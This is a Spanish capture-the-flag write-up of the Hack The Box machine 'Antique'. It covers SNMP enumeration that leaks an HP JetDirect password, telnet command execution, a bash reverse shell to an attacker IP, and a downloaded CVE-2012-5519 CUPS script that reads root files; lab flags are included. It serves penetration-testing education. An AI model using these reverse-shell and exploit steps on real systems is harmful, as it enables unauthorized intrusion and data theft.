



---


# Información

- **Nombre**: Antique
- **Difilcultad**: Fácil
- **Plataforma**: Hack The Box
- **Autor**: MrR3boot
- **Técnicas usadas**: Enumeración SNMP, Explotación de CUPS administration, Pivoting local, Montar servidores HTTP locales para compartir archivos con Python.

---

## 1. Fase de enumeración

**Verificación de Conectividad**
Una vez establecida la conexión VPN, se inicia la fase de reconocimiento verificando la disponibilidad del objetivo mediante la herramienta ping. Se envían cuatro paquetes ICMP para confirmar la comunicación:

```bash
ping -c 4 10.129.15.105
PING 10.129.15.105 (10.129.15.105) 56(84) bytes of data.
64 bytes from 10.129.15.105: icmp_seq=1 ttl=63 time=249 ms
64 bytes from 10.129.15.105: icmp_seq=2 ttl=63 time=177 ms
64 bytes from 10.129.15.105: icmp_seq=3 ttl=63 time=196 ms
64 bytes from 10.129.15.105: icmp_seq=4 ttl=63 time=214 ms

--- 10.129.15.105 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3007ms
rtt min/avg/max/mdev = 176.929/209.102/249.011/26.574 ms
```

**Análisis del TTL**:
El comando muestra una respuesta exitosa. Basándonos en el valor del TTL (Time To Live) de 63, se infiere que el sistema operativo objetivo es Linux (cuyo valor por defecto es 64, restando un salto debido a la infraestructura de red).

---

## Enumeración de puertos (TCP)

Tras establecer conectividad con el objetivo, se procedió a realizar un escaneo exhaustivo de todo el rango de puertos **TCP (0-65535)** para identificar servicios expuestos.

```bash
nmap -p- --open --min-rate 5000 -sS -Pn -n 10.129.15.105 -oN full-ports.txt
```

### Detección de versiones y servicios

Una vez identificado el **puerto 23 (Telnet)** como único puerto abierto, se procedió a realizar un escaneo dirigido utilizando el **Nmap Scripting Engine (NSE)** y la detección de versiones para profundizar en la naturaleza del servicio.

```bash
nmap -p 23 -sCV 10.129.15.105-oN service-detection.txt
```

#### Análisis de Resultados e intento de acceso

Los resultados del escaneo y la interacción manual revelan que el servicio corresponde a una interfaz **HP JetDirect**, una tecnología de impresión común en redes corporativas.

Se realizó un intento de conexión manual para verificar la presencia de sesiones nulas o el uso de credenciales por defecto:

```bash
telnet 10.129.15.105
Trying 10.129.15.105...
Connected to 10.129.15.105.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```

##### Hallazgos y Siguientes Pasos

La respuesta del servidor confirma que el acceso está restringido mediante contraseña y que se trata de un dispositivo de impresión. Dado que el vector TCP no ofrece más puntos de entrada inmediatos, se ampliará el alcance de la auditoría hacia la **enumeración de puertos UDP**, buscando servicios adicionales como **SNMP**, los cuales suelen estar asociados a este tipo de dispositivos.

---

## Enumeración de puertos (UDP)

Debido a la naturaleza del protocolo UDP y la lentitud en su escaneo, optó por una estrategia de **optimización de rendimiento**. En lugar de un barrido completo, se realizó un escaneo dirigido a los **100 puertos más comunes** (`--top-ports 100`), ajustando la tasa de envío de paquetes para agilizar el proceso sin comprometer la fiabilidad de los resultados.

```bash
nmap --top-ports 100 --open -sU --min-rate 5000 10.129.15.105 -oN UDP-scan.txt
```

### Análisis de resultados

El escaneo identificó el **puerto 161** en estado abierto, ejecutando el servicio **SNMP** (_Simple Network Management Protocol_).

Para profundizar en la configuración del servicio, se ejecutó un segundo escaneo de detección de versiones y ejecución de scripts por defecto (**NSE**):

```bash
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```

#### Hallazgos clave:

- **Versión:** SNMPv1.
- **Community String:** Se identificó la comunidad por defecto **"public"**.
- **Implicaciones:** La exposición de SNMPv1 con credenciales por defecto permite la extracción de información crítica del sistema, como nombres de interfaces, procesos en ejecución y configuración de red.

---

## 3. Enumeración SNMP e identificación de vulnerabilidades

Al ejecutar un volcado inicial de SNMP utilizando la comunidad `public`, el servicio devolvió una información extremadamente limitada, reportando únicamente la cadena descriptiva: **"HTB Printer"**.

```bash
snmpwalk -v 2c -c public 10.129.15.105 
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

### Búsqueda de vulnerabilidades con searchsploit

Ante la falta de información, se procedió a buscar vulnerabilidades específicas para servicios SNMP en dispositivos de impresión mediante `searchsploit`.

```bash
searchsploit snmp hp
```

Se identificó un exploit crítico relacionado con la divulgación de credenciales en tarjetas de red **HP JetDirect**:

 - **Exploit:** HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure
 
	**ID:** `hardware/remote/22319.txt`

#### Explotación de Ramas Privadas y OIDs Específicos

El análisis del documento `22319.txt` revela que es posible evadir las restricciones de la MIB estándar consultando directamente la raíz del árbol o, de forma más precisa, un **OID de la rama privada de HP** que almacena la contraseña de administración en texto plano.

Se ejecutó primero un escaneo desde la raíz (`1`) para forzar el descubrimiento de objetos no indexados:

```bash
snmpwalk -v 2c -c public 10.129.15.105 1 
```

Como alternativa más directa y efectiva para recuperar la credencial de acceso, se consultó el OID específico detallado en el exploit:

```bash
snmpwalk -v 2c -c public 10.129.15.105 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

Este OID apunta a la configuración interna del servidor de impresión, donde a menudo se exponen parámetros de seguridad sin el control de acceso adecuado.

##### Resultados

Una vez ejecutado el procedimiento se encuentra la siguiente cadena en formato decimal:

```bash
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

---

## 4. Decodificación de Credenciales e Intrusión

Tras ejecutar la consulta, el servicio SNMP devolvió una cadena de valores numéricos en formato **Decimal (ASCII)**. Estos valores representan los caracteres individuales de la contraseña de administración del dispositivo.

**Procesamiento de la Cadena**

Para transformar esta secuencia en texto legible, se utilizó una combinación de herramientas en la línea de comandos. Primero, se normalizó la cadena en una sola línea y luego se procesó para su conversión.

```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -r -p 
```

**Análisis de la Cadena Decodificada**

La salida del comando de decodificación fue la siguiente:

```bas
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5
```

**Interpretación Técnica:** Los caracteres especiales (�) indican valores hexadecimales que no tienen una representación en la tabla ASCII estándar o que corresponden a instrucciones de control del dispositivo. Se identificó que la cadena legítima termina antes del primer carácter no alfanumérico, estableciendo la credencial probable como: `P@ssw0rd@123!!123`

### Acceso al Sistema (Telnet)

Con la contraseña extraída, se procedió a validar el acceso al servicio **Telnet** en el puerto 23.



Tras validar la credencial `P@ssw0rd@123!!123`, se obtuvo acceso satisfactorio a la interfaz de línea de comandos (CLI) del dispositivo **HP JetDirect**.

#### Enumeración de Comandos y Capacidades

Para determinar el alcance del control sobre el sistema, se ejecutó el comando de ayuda (`?`), revelando las funciones administrativas disponibles.



Se identificó que el comando `exec` permite la ejecución directa de instrucciones a nivel de sistema operativo. Esta funcionalidad representa una vulnerabilidad de **Ejecución Remota de Comandos (RCE)**, ya que permite al atacante interactuar con el _kernel_ o el sistema de archivos del dispositivo, rompiendo el aislamiento de la aplicación de impresión.

Para confirmar el nivel de privilegios y el entorno de ejecución, se procedió a testear comandos básicos del sistema:

```bash
> exec whoami
lp
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> exec ls
telnet.py
user.txt
exec cat user.txt
```

Tras obtener acceso, procedo a leer la primera flag: `89640183c63c5e17206516613f378c6a`. No obstante, la sesión actual es una shell limitada y carece de estabilidad, por lo que el siguiente paso lógico es estabilizar una TTY interactiva.

---

## 5. Establecimiento de Reverse Shell para Persistencia

Tras confirmar la **Ejecución Remota de Comandos (RCE)**, el siguiente paso es estabilizar el acceso mediante una **reverse shell**. Para ello, preparo mi máquina local para recibir la conexión y ejecuto el _payload_ en el servidor objetivo.
 
 - **Paso A: Preparación del oyente (Listener)**
	En mi máquina de atacante, pongo el puerto `4444` a la escucha utilizando `netcat`:
	
```bash
nc -lvnp 4444
````

- **Paso B: Ejecución del Payload**
	Desde la máquina víctima, envío la conexión de vuelta a mi IP (`10.10.14.37`) con el siguiente comando de Bash:

```bash
exec bash -c "bash -i >& /dev/tcp/10.10.14.37/4444 0>&1"
```

### Estabilización de la TTY: De Shell Limitada a Interactiva

Cuando obtenemos una _reverse shell_ con `netcat`, la terminal suele ser "tonta" (no tiene autocompletado, no permite usar `Ctrl+C` sin cerrarse y no tiene historial). Para solucionar esto, seguimos este proceso de estabilización:

 **1. Generar la Terminal Interactiva**

El primer paso es invocar un entorno de shell real. Podemos intentar dos métodos dependiendo de lo que esté instalado en la víctima:

- **Opción A (Vía Script):** Crea una sesión de terminal fingiendo una interacción de usuario.

```bash
script /dev/null -c bash
```

- **Opción B (Vía Python):** Si la opción anterior falla, usamos el módulo `pty` de Python para spawnear un bash completo.

```bash
which python3 # Verificamos existencia
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**2. Configuración de la Consola (Escape y Captura)**

Ahora debemos "engañar" a nuestra propia terminal de Kali para que pase las señales de control (como `Ctrl+Z` o `Tab`) directamente a la máquina víctima.

1. **Suspender la shell:** Presionamos `Ctrl + Z`. Esto nos devuelve temporalmente a nuestra terminal local.

2. **Configurar el modo Raw:** Ejecutamos el siguiente comando en nuestra terminal de Kali:

```bash
stty raw -echo; fg
```

- **`stty raw`**: Desactiva el procesamiento de entrada de nuestra terminal (pasa todo literal).
- **`-echo`**: Evita que los caracteres se dupliquen en pantalla.
- **`fg`**: Trae la shell suspendida de nuevo al primer plano (_foreground_).

**3. Reseteo y Variables de Entorno**

Una vez de vuelta en la shell de la víctima, la terminal puede verse desconfigurada. Aplicamos los ajustes finales:

```bash
reset xterm       # Reinicia la configuración de la terminal
export TERM=xterm # Permite comandos visuales como 'clear' o 'Ctrl+L'
```

---

## Lectura de archivos sensible y visualización de información sensible

### 1. Enumeración de Servicios Internos

Tras estabilizar la TTY, inicio una fase de enumeración interna para identificar vectores de escalada. Al listar los puertos en escucha en la interfaz de _loopback_ con el comando `netstat -ant`, identifico un servicio sospechoso:

```bash
127.0.0.1:631           0.0.0.0:*               LISTEN    
```

El puerto **631** pertenece a **CUPS (Common Unix Printing System)**. Este servicio es un objetivo crítico, ya que el demonio `cupsd` suele ejecutarse con privilegios de **root** para gestionar el hardware de impresión. Cualquier vulnerabilidad en este componente suele derivar en un compromiso total del sistema.

Utilizando `curl`, verifico la versión del servicio directamente desde la cabecera HTML:

```bash
curl http://localhost:631
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Home - CUPS 1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
        <LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
```

### 2. Análisis de Vulnerabilidad (CVE-2012-5519)

La versión **1.6.1** de CUPS es vulnerable al **CVE-2012-5519**. Este fallo permite a los usuarios pertenecientes al grupo `lpadmin` (como es el caso de nuestro usuario actual `lp`) leer o escribir archivos arbitrarios con privilegios de superusuario. El problema reside en una gestión incorrecta de las directivas de configuración en la interfaz web, que permite redirigir archivos de registro o error a rutas sensibles del sistema.

### 3. Transferencia y Ejecución del Exploit

Para automatizar este proceso, utilizo el script `cups-root-file-read.sh` del repositorio de [p1ckzi](https://github.com/p1ckzi/CVE-2012-5519). Dado que la máquina de HTB no tiene salida a Internet, realizo la transferencia de archivos de forma manual.

**En mi máquina de atacante:** Monto un servidor web rápido con Python:

```bash
python3 -m http.server 8081
```

**En la máquina víctima:** Descargo el script, otorgo permisos de ejecución y preparo la lectura de archivos:

```bash
wget http://<mi_ip>:<mi_puerto>/cups-root-file-read.sh   # Me comparto el archivo desde mi máquina de atacante.
chmod +x cups-root-file-read.sh                          # Asigno permisos de ejecución al archivo.
./cups-root-file-read.sh                                 # Ejecuto el script
```

#### Resultados de ejecución

Una vez ejecutado el script puedo ver el contenido de cualquier archivo indicando la ruta del mismo al script, como se observa a continuación.



Para finalizar la máquina le paso la ruta de la flag: `/root/root.txt` y la herramienta procede a mostrarla.


---


